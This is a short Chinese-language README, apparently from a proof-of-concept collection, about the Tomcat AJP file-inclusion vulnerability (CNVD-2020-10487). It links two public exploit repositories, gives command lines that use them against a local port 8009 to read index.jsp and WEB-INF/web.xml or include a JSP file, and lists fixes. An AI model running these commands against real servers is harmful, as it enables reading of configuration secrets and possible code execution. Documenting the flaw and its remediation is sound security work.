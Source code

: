 Tomcat被曝出文件包含漏洞或导致RCE  

2020.02.21-CNVD-2020-10487-Tomcat-Ajp-lfi  

现在有两个poc     
1.参考链接（https://github.com/0nise/CVE-2020-1938）  
任意文件读取  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 file /index.jsp```  
文件包含  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 jsp /index.jsp```  
截图如下  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/1.png)    
  
2.参考链接（https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi）  
任意文件读取
```py -2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml```  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/2.png)  
漏洞修复：  
+临时禁用AJP协议端口，在conf/server.xm l配置文件中注释掉<Connector port="8009" protocol="AJP/1.3"redirectPort="8443" />  
+配置ajp配置中的secretRequired跟secret属性来限制认证  
+官方下载最新版下载地址：  
https://tomcat.apache.org/download-70.cgi  
https://tomcat.apache.org/download-80.cgi  
https://tomcat.apache.org/download-90.cgi  
https://github.com/apache/tomcat/releases  




